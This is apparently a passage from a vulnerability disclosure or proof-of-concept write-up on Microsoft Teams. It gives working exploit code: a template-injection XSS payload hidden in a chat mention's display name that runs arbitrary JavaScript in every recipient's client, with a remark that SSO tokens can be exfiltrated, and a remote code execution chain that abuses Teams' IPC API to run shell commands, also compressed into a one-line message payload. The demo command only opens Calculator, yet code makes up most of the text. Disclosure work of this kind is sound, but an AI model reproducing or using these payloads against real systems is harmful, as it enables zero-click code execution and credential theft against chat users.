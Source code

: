 ```http
{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot{{['if(typeof onetime==`undefined`){onetime=1;console.log(localStorage);}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}\"}]"}}
```

this will log user's local storage as a XSS PoC.

**no further actions are necessary. all users within this chat will start logging their SSO tokens which can be exfiltrated**.

you can verify this by checking development tools in either Microsoft Teams desktop or any browser.

## Remote code execution & payload

A novel remote code execution payload was developed, which bypasses all restrictions currently implemented (remote require, node integration, webview preload filtering etc.) in Microsoft Teams desktop and should work even if `contextIsolation` was enabled.

```javascript
cmd = `open /Applications/Calculator.app` // change to windows/linux command as required

stage1 = `data:text/plain,cp=require('child_process');cp.exec('${cmd}')`; // create a virtual file to download
this.electronSafeIpc.send(`desktopFileDownload`, stage1); // request to download file

// implement an event handler when files downloaded to trigger payload
this.electronSafeIpc.on(`desktop-file-download-finished`, (_, fileinfo) => { 
        f = fileinfo.uniqueFile.filePath; // event gives us file path which we don't know beforehand
        
        // create a new webview mockup - window with a webview tag and our virtual, downloaded file as preload
        stage2 = `data:text/html,<webview src='about:blank' preload='file:///${f}'></webview>`
        this.electronSafeIpc.send(`allowWindowOpenUrl`, stage2); // abusing MS Teams IPC API to allow above URL
        this.w = window.open(stage2); // URL gets opened, webview gets created with our virtual, downloaded file preload
        setTimeout(()=>{this.w.close()},1000) // not necessary, but let's close the custom window
    }
)
```

Shortened version for HTTP PUT request and improved to execute only once per reload:

```
{{['if(typeof mentiontime==`undefined`){mentiontime=1;stage1=`data:text/plain,cp=require(\\\"child_process\\\");cp.exec(\\\"open /System/Applications/Calculator.app\\\")`;this.electronSafeIpc.send(`desktopFileDownload`,stage1);this.electronSafeIpc.on(`desktop-file-download-finished`,(_,fileinfo)=>{f=fileinfo.uniqueFile.filePath;stage2=`data:text/html,<webview src=\\\"about:blank\\\" preload=\\\"file:///${f}\\\"></webview>`;this.electronSafeIpc.send(`allowWindowOpenUrl`,stage2);this.w=window.open(stage2);setTimeout(()=>{this.w.close()},2000)})}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}
```
